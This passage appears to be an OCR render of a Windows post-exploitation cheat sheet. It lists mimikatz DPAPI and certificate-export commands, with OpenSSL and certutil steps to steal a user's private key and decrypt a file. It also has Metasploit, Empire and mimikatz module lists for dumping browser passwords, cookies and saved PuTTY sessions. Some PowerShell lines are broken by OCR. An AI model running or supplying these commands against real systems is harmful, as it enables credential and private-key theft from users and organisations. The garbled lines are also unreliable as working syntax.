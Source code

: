 privilege::debug 
token::elevate 
crypto::system /file:"C:\Users\Administrator\AppData\Roaming\Microsoft\SystemCertificates\My\Certificates\thecert" /export
dpapi::capi /in:"C:\Users\Administrator\AppData\Roaming\Microsoft\Crypto\RSA\SID\id"
# Clear text password 
dpapi::masterkey /in:"C:\Users\Administrator\AppData\Roaming\Microsoft\Protect\SID\masterkey" /password:pass123
# After this command you must have the exported .der and .pvk files
dpapi::capi /in:"C:\Users\Administrator\AppData\Roaming\Microsoft\Crypto\RSA\SID\id" /masterkey:f2c9ea33a990c865e985c496fb8915445895d80b
openssl x509 -inform DER -outform PEM -in blah.der -out public.pem
openssl rsa -inform PVK -outform PEM -in blah.pvk -out private.pem
openssl pkcs12 -in public.pem -inkey private.pem -password pass:randompass -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
# Import the certificate
certutil -user -p randompass -importpfx cert.pfx NoChain,NoRoot
type "C:\Users\Administrator\Documents\encrypted.txt"



## Post exploitation - information gathering

### Reading Event Logs
User must be in “Event Log Reader” group Follow this link

Get-WinEvent -ListLog *
# Listing logs of a specific user
$cred = Get-Credentials
Get -WinEvent -ListLog * -ComputerName AD1 -Credentials $cred
# Reading Security logs
(Get-WinEvent -FilterHashtable @{LogName = 'Security'} | Select-Object @{name='NewProcessNam
e';expression={ $_.Properties[5].Value }}, @{name='CommandLine';expression={
$_.Properties[8].Value }}).commandline

### Password Dump
# Metasploit
post/windows/gather/enum_chrome
post/multi/gather/firefox_creds
post/firefox/gather/cookies
post/firefox/gather/passwords
post/windows/gather/forensics/browser_history
post/windows/gather/enum_putty_saved_sessions
# Empire
collection/ChromeDump
collection/FoxDump
collection/netripper
credentials/sessiongopher
# mimikatz
privilege::debug
